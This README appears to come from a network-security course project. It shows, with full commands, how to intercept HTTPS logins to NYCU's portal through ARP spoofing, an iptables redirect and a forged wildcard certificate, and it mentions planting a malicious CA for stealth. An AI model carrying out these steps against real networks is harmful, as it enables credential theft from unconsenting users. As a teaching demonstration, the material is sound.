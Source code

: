 # Man-in-the-Middle Attack on Unverified TLS Connections

This is a demonstration project showing the potential damage of unverified TLS connections. The attack is accomplished by ARP spoofing and a simple man-in-the-middle HTTPS server. In this demo, all HTTPS traffic between the victim machine and 140.113/16 held by NYCU is intercepted and redirected to the man-in-the-middle server. The goal is to sniff the inputted ID and password to log into [portal.nycu.edu.tw](https://portal.nycu.edu.tw).

# Prerequisites

- At least one victim machine with Google Chrome installed
- One attack machine with Python 3.8 or later and `dsniff` installed (for `arpspoof`)
- These machines should be able to ping each other within a LAN
- It is recommended to use virtual machines

# Steps

## Attack Machine

### Enable IP forwarding to allow traffic to go through the attack machine

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

### Perform ARP spoofing on the victim machine and the gateway

If the attack is successful, the man-in-the-middle scenario holds. The interface name and the gateway IP can be found with `route -n`. The victim IP can be found through IP scanning within the LAN or just by opening a terminal on the victim machine and executing `ifconfig`. Note that at this step, all HTTPS traffic between the victim and servers within 140.113/16 is protected via TLS. To be able to get the plaintext HTTP message, the man-in-the-middle server should pretend to be the real server to the victim and establish the TLS connection with the victim.

```bash
sudo arpspoof -i <interface name> -c both -t <victim IP> -r <gateway IP>
```

### Set the NAT table

Open a new terminal for the following commands. Clear the NAT table of the `iptables` firewall and add a new rule to redirect HTTPS packets to 140.113/16 to this machine on port 8080. The man-in-the-middle server will listen on that port. At this step, the browser will show "This site can't be reached" for all HTTPS connections to 140.113/16 on the victim machine.

```bash
sudo iptables -t nat -F && \
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -m iprange \
  --dst-range 140.113.0.0-140.113.255.255 -j REDIRECT --to-port 8080
```

### Generate self-signed certificate

Generate a forged self-signed certificate for \*.nycu.edu.tw. It is used to establish the TLS connection between the victim and the man-in-the-middle server. Since the victim is assumed not to verify the legality of the certificate, using the generated certificate is fine. If the attacker has access to the victim machine, a malicious CA certificate can be installed so that all certificates signed by that CA certificate can pass the TLS verification, which allows the attack to be more covert.

```bash
openssl req -new -newkey rsa:4096 -days 30 -nodes -x509 \
  -subj "/C=TW/ST=Taiwan/L=Middle/O=Man/CN=*.nycu.edu.tw" -keyout host.key -out host.crt
```

### Run the man-in-the-middle server

The generated certificate files are assumed to be in the same location as the attack script.

```bash
sudo ./attack.py [ <interface name> ]
```

## Victim Machine

### Browse the web

Open several web pages. If the man-in-the-middle server is up, the plaintext ID and password will be shown on the attack machine every time the login request is sent.

```bash
google-chrome -incognito --ignore-certificate-errors --user-data-dir=/tmp/chrome_dev \
  "portal.nycu.edu.tw" "cs.nycu.edu.tw" "ccs.nycu.edu.tw" "eecsigp.nycu.edu.tw" "dpeecs.nycu.edu.tw" \
  "it.nycu.edu.tw" "aa.nycu.edu.tw" "timetable.nycu.edu.tw" "nems.cs.nycu.edu.tw" "ocw.nycu.edu.tw"
```

# Disclaimer

The content provided in this repository is for educational purposes only. Launching such an attack on another person without consent is against the law. The script `attack.py` is part of a course project in Network Security at NYCU CS. Do not plagiarize the script if you are a student doing similar coursework.
